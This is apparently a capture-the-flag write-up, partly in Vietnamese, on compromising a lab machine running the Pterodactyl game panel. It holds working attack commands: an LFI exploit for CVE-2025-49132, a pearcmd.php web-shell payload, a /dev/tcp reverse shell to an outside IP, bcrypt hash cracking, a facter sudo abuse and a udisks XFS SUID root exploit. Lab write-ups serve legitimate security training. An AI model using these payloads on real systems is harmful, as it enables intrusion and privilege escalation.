


# Recon

## nmap

```zsh
# Nmap 7.98 scan initiated Mon Feb  9 23:29:08 2026 as: /usr/lib/nmap/nmap -sCV -p- --min-rate 3000 -T 4 -oA pterodactyl -vv 10.129.73.152
Nmap scan report for 10.129.73.152
Host is up, received echo-reply ttl 63 (0.064s latency).
Scanned at 2026-02-09 23:29:09 +07 for 52s
Not shown: 65477 filtered tcp ports (no-response), 54 filtered tcp ports (admin-prohibited)
PORT     STATE  SERVICE    REASON         VERSION
22/tcp   open   ssh        syn-ack ttl 63 OpenSSH 9.6 (protocol 2.0)
| ssh-hostkey: 
|   256 a3:74:1e:a3:ad:02:14:01:00:e6:ab:b4:18:84:16:e0 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOouXDOkVrDkob+tyXJOHu3twWDqor3xlKgyYmLIrPasaNjhBW/xkGT2otP1zmnkTUyGfzEWZGkZB2Jkaivmjgc=
|   256 65:c8:33:17:7a:d6:52:3d:63:c3:e4:a9:60:64:2d:cc (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJTXNuX5oJaGQJfvbga+jM+14w5ndyb0DN0jWJHQCDd9
80/tcp   open   http       syn-ack ttl 63 nginx 1.21.5
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://pterodactyl.htb/
|_http-server-header: nginx/1.21.5
443/tcp  closed https      reset ttl 63
8080/tcp closed http-proxy reset ttl 63

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Feb  9 23:30:01 2026 -- 1 IP address (1 host up) scanned in 53.09 seconds
```

## HTTP web TCP 80

### Site


It seems this is a `minecraft` server.
## Subdomain enumeration

#### FFUF

```zsh
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://pterodactyl.htb/ -H "Host: FUZZ.pterodactyl.htb" -fs 145
```


#### Admin page

`http://panel.pterodactyl.htb`


# Foothold

## CVE-2025-49132

After doing some research, I found that the recent 0-day supply of `Pterodactyl` is worth a try.

Try to inject payload follow [this exploit](https://www.exploit-db.com/exploits/52341):

```html
http://panel.pterodactyl.htb/locales/locale.json?locale=../../../pterodactyl&namespace=config/database
```


Found credential: `pterodactyl:PteraPanel`

I tried to login panel but failed.

Try to read other files but it seems auto add `.php` at the end. `config/database` = `config/database.php`
## pearcmd.php

Thanks to CVE-2025-49132, we can use `pearcmd.php`. It has a `config-create` command: This command takes the content and file path to create the configuration file.

Syntax: `pear config-create <root_path> <file_path>`
If we call `pearcmd.php` via LFI and pass parameters via URL, we can force it to create a file containing malicious code.
### Shell as `wwwrun`

Tôi đã thử tạo một file có tên là `sora1.php` thực hiện lệnh `id`:

```
GET /locales/locale.json?+config-create+/&locale=../../../../../../usr/share/php/PEAR&namespace=pearcmd&/<?=system('id')?>+/tmp/sora1.php HTTP/1.1
```


Sau đó thử kích hoạt payload:

```
GET /locales/locale.json?locale=../../../../../tmp&namespace=sora1 HTTP/1.1
```


Vậy để có reverse shell, tôi sẽ tạo 1 file có chứa payload nhận tham số lệnh vào thuận tiện cho thực thi lệnh.

Tạo file:

```
GET /locales/locale.json?+config-create+/&locale=../../../../../../usr/share/php/PEAR&namespace=pearcmd&/<?=system($_GET['c'])?>+/tmp/sora.php HTTP/1.1
```

Chạy Payload:

```
GET /locales/locale.json?locale=../../../../../tmp&namespace=sora&c=sh+-i+>%26+/dev/tcp/10.10.15.170/5555+0>%261 HTTP/1.1
```


Từ đây hoàn toàn có thể lấy được flag `user.txt`
# Privilege Escalation

## Shell as `phileasfogg3`

Không thể truy cập trực tiếp vào cơ sở dữ liệu bằng `mysql`, do đó thử sử dụng:

```
php artisan tinker
```

Sau đó dump toàn bộ users:

```zsh
\Pterodactyl\Models\User::all();
```


```json
username: "phileasfogg3",
        email: "phileasfogg3@pterodactyl.htb",
        name_first: "Phileas",
        name_last: "Fogg",
        #password: "$2y$10$PwO0TBZA8hLB6nuSsxRqoOuXuGi3I4AVVN2IgE7mZJLzky1vGC9Pi",
```

Có thể crack password của user `phileasfogg3`

```zsh
hashcat -m 3200 '$2y$10$PwO0TBZA8hLB6nuSsxRqoOuXuGi3I4AVVN2IgE7mZJLzky1vGC9Pi' /usr/share/wordlists/rockyou.txt
```

The password after cracked: `!QAZ2wsx`

Lúc này có thể dùng để ssh.

```zsh
ssh phileasfogg3@pterodactyl.htb
```
## /usr/bin/facter

Có một email nhắc về lỗ hổng



```ruby
#!/usr/bin/ruby
success = system("id")
if success
  puts "Command executed successfully."
else
  puts "Command failed."
end
```

Then run exploit

```zsh
sudo /usr/bin/facter --custom-dir=. x
```



Modified to get root
```ruby
#!/usr/bin/ruby
system("chmod u+s /bin/bash")
```


```zsh
#################

# Attack machine

#################

sudo apt install xfsprogs -y

rm -f xfs.image

rm -rf xfsmnt

# Create image

dd if=/dev/zero of=xfs.image bs=1M count=300

# Format as XFS (this will now work!)

sudo mkfs.xfs -f xfs.image

# Verify it's XFS

file xfs.image

# Should say: "SGI XFS filesystem data"

# Mount and add SUID shell

mkdir xfsmnt

sudo mount xfs.image xfsmnt

sudo cp /bin/bash xfsmnt/bash

sudo chmod 4755 xfsmnt/bash

sudo ls -la xfsmnt/bash

sudo umount xfsmnt

# Final verification

file xfs.image

hexdump -C xfs.image | head -3

# Should see "XFSB" magic bytes

scp xfs.image phileasfogg3@pterodactyl.htb:/tmp/xfs_real.image

##############

# on pterodactyl

##############

hexdump -C /tmp/xfs_real.image | head -20

phileasfogg3@pterodactyl:/tmp> killall -KILL gvfs-udisks2-volume-monitor 2>/dev/null

phileasfogg3@pterodactyl:/tmp> udisksctl loop-setup --file /tmp/xfs_real.image --no-user-interaction

Mapped file /tmp/xfs_real.image as /dev/loop5.

##########check loop device (5)

phileasfogg3@pterodactyl:/tmp> while true; do /tmp/blockdev*/bash -c 'sleep 10; ls -l /tmp/blockdev*/bash' && break; done 2>/dev/null &

[4] 18575

###in command below check that you use loop device above(5)

phileasfogg3@pterodactyl:/tmp> gdbus call --system --dest org.freedesktop.UDisks2 --object-path /org/freedesktop/UDisks2/block_devices/loop5 --method org.freedesktop.UDisks2.Filesystem.Resize 0 '{}'

Error: GDBus.Error:org.freedesktop.UDisks2.Error.Failed: Error resizing filesystem on /dev/loop5: Failed to unmount '/dev/loop5' after resizing it: target is busy

phileasfogg3@pterodactyl:/tmp> -rwsr-xr-x 1 root root 1265648 Feb 7 23:54 /tmp/blockdev.7XM7J3/bash

-rwsr-xr-x 1 root root 1265648 Feb 7 23:54 /tmp/blockdev.7XM7J3/bash

-rwsr-xr-x 1 root root 1265648 Feb 7 23:54 /tmp/blockdev.7XM7J3/bash

-rwsr-xr-x 1 root root 1265648 Feb 7 23:54 /tmp/blockdev.7XM7J3/bash

phileasfogg3@pterodactyl:/tmp> /tmp/blockdev*/bash -p

bash-5.2# id

uid=1002(phileasfogg3) gid=100(users) euid=0(root) groups=100(users)

bash-5.2# cat /root/root.txt

12bcc....

bash-5.2#
```